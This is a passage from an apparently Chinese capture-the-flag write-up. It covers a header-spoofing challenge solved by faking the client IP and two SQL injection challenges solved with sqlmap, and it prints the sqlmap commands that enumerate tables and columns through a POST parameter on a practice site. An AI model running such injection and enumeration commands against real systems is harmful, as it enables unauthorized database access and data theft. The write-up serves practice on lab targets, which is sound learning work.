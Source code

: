 代码的意思很明显，把IP改成1.1.1.1就搞定。

使用Firefox插件 **modify header** 伪造IP
提交请求，得到key： **http_client**

* * *

## 7 这个看起来有点简单

页面给个框，url里还给了id，一看就是注入
看起来有点简单，爆起来更简单

题目是想让大家练习一下手注？不管了直接用sqlmap爆了

[sql基本指令学习](http://blog.csdn.net/zgyulongfei/article/details/41017493)
[sql中文用户手册](http://drops.wooyun.org/tips/143)

检测注入点OK：id
当前库：my_db
表：news thiskey
看thiskey字段：k0y
爆字段得到key：**whati0MyD9ldump**

**行云流水**

* * *

## 8 这新闻不新

同样用sqlmap直接爆了出来，sqlmap基础参考上题的链接

### 检查注入点

与上题不同的是注入点不在url，而需要用post提交

使用`--data`参数：
`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1"`

### 打表

`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1" --tables`

得到两个表：manager news

### 爆manager字段

`python sqlmap.py -u http://ctf5.simplexue.com:8080/9/asp.asp --data="title=1" -T manager --columns`

| Column | Type |
| --- | --- |
| id | numeric |
| name | non-numeric |
| news | non-numeric |
| pass | non-numeric |
| title | non-numeric |
